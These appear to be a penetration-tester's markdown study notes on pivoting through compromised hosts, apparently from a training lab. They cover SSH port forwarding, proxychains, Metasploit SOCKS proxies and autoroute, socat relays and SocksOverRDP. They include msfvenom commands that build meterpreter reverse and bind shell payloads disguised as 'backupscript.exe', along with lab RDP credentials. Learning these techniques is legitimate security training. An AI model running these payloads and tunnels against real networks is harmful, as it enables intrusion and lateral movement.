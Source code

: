 
## #SSH local port forwarding
![[Pivotting.png]]
### Scan the pivot target 
```shell
nmap -sT -p22,3306 10.129.202.64
```
### Execute the local Port Forward 
```shell
ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```
-L Forward all traffic from the first port to the second
### Confirm Port Forward 
```shell
netstat -antp | grep 1234
```
```shell
nmap -v -sV -p1234 localhost
```
### Forward multiple hosts  
```shell
ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

## SSH Tunnelling over #SOCKS proxy 
To connect to the target machine from the local machine you can start a SOCKS listener on the local host. 
*This is called SSH tunneling over SOCKS proxy*

Allows traffic to be route to the second target via the first machine. 
![[Pivotting over SSH.png]]

#### Dynamic Port forwarding with SSH 

##### Use #Proxychains to send traffic across #proxy 
```shell
ssh -D 9050 ubuntu@10.129.202.64
```
The D argument requests the SSH server to enable dynamic port forwarding. 

```shell
tail -4 /etc/proxychains.conf
```
Add `socks4 127.0.0.1 9050` to the bottom. 
##### #nmap with proxy chains 
```shell
 proxychains nmap -v -sn 172.16.5.1-200
```
##### Proxy chains with metasploit 
```shell
proxychains msfconsole
```
##### Proxychains with xfreerdp
```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
## Remote/Reverse Port Forwarding 
Allows the target to talk back to you
Example payload:
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
On the local machine 
```shell
ssh -R <InternalIPofPivotHost>:<multi handler port>:<listenerip>:<lport> <target username>@<ipAddressofTarget> -vN
```


## Meterpreter Tunnelling & Port Forwarding
### Ping Sweeping to search for more hosts 
Run these twice to allow ARP cache to build up
```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
```cmd
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

```msf
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
### MSF SOCKS Proxy 
```shell
use auxiliary/server/socks_proxy
```

```shell
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
```
Check the proxy is running 
```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====
Id  Name    Payload  Payload opts
0   Auxiliary: server/socks_proxy
```
may need to add to /etc/proxychains.conf
```shell
socks4 	127.0.0.1 9050
```
#### Creating Routes 
```shell
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```
 or 
 ```shell
run autoroute -s 172.16.5.0/23
```
```shell
run autoroute -p
```
#### Test Connection 
```shell
proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```
### Port Forwarding 
create a local TCP relay 
```meterpreter
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

```shell
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
### Reverse Port Forwarding 
```shell
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
Forward requests on port 1234 to listener on port 8081
##### Start a multi handler


## [Socat](https://linux.die.net/man/1/socat) Redirection with a Reverse Shell
Bidirectional relay tool that can create a pipe between 2 network channels. 
### Start #Socat Listener 
Do this on the pivot host 
```shell
socat TCP4-LISTEN:8080,fork TCP4:<local ip>
```

Listen on the local host on port 8080 and forward traffic over port 80

### Create the payload 
```shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<pivot host ip> -f exe -o backupscript.exe LPORT=8080
```
Start a multi handler on port 80 
## Socat Redirection with a Bind Shell
![[Pivotting MSF.png]]
```shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
Create the payload 

### Socat Bind Listener 
```shell
 socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
Needs to be the inverse way to ensure traffic is forwarded to the target this time 

Start a multi handler 

Establish a meterpreter session 


## RDP and SOCKS Tunneling with SocksOverRDP
SSH not available?
[SOCKS over RDP](https://github.com/nccgroup/SocksOverRDP)
Uses Dynamic Virtual Channels
### Downloads 
https://github.com/nccgroup/SocksOverRDP/releases
https://www.proxifier.com/download/#win-tab

#### Load SocksOverRDP on pivot host 
```cmd
regsvr32.exe SocksOverRDP-Plugin.dll
```
Connect over RDP using mstsc.exe
Should receive prompt that SocksOverRDP is enabled.

Transfer SocksOverRDP-Server.exe and star with admin privileges. 

Check SOCKS Listener is started 
```cmd
netstat -antb | findstr 1080
```

### Transfer Proxifier over to the pivot host
Profiles > add profile
Configure to forward all packets to 127.0.0.1:1080

